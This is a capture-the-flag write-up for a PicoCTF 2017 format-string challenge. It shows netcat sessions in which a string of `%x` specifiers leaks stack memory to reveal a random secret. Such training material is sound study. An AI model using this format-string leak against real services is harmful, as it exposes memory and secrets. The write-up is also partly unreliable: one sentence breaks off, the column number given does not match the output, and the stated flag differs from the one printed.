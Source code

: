 # PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:39169.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack, which means passing the conversion string in the input field to get the memory address of the stack.

By running the code for the first time, we come to know that the secret is in hex format, so `%x` can be used to attack this code.

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: f7fc7c20
    As my friend says,"You get nothing! You lose! Good day, Sir!"

With the same input `%x %x %x %x %x %x %x %x` run the program for some times to see that the 5th column generates a new value everytime. That's because of the urandom in the 

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: 4ef971b5
	c9fd8f8a1dcaee8962bc60cb516a79a5
	Wow, you got it!

Therefore, the flag is `a18450ba7aaa8c085c522cdef6ab35ab`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExNjI0NDU3MzJdfQ==
-->
